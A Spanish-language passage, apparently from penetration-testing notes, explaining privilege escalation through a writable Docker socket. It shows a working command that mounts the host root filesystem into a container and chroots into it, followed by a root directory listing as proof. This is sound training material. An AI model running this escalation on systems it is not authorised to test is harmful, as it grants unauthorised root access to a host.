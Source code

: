 ### Docker Socket

Un caso que también puede ocurrir es cuando el socket Docker es escribible. Usualmente, este socket se encuentra en `/var/run/docker.sock`. Sin embargo, la ubicación puede ser comprensiblemente diferente. Porque básicamente, esto solo puede ser escrito por el root o el grupo docker. Si actuamos como un usuario, no en uno de estos dos grupos, y el socket Docker aún tiene los privilegios para ser escribible, entonces aún podemos usar este caso para escalar nuestros privilegios.

```r
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```